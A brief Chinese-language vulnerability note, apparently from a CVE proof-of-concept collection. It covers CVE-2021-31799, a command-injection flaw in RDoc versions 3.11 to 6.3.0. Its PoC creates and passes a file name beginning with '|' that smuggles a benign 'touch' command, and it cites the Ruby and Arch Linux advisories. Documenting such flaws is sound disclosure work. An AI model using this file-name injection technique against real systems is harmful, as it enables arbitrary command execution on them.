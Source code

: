 # RDoc 命令注入（CVE-2021-31799）

RDoc调用Kernel#open打开本地文件，ruby项目中如果文件名以|开头和tags结尾，则会导致命令注入。

影响版本：

从3.11到6.3.0的所有RDoc版本

PoC：

```
touch "|touch cb"
rdoc "|touch cb"
```
ref：

* https://www.ruby-lang.org/en/news/2021/05/02/os-command-injection-in-rdoc/
* https://security.archlinux.org/CVE-2021-31799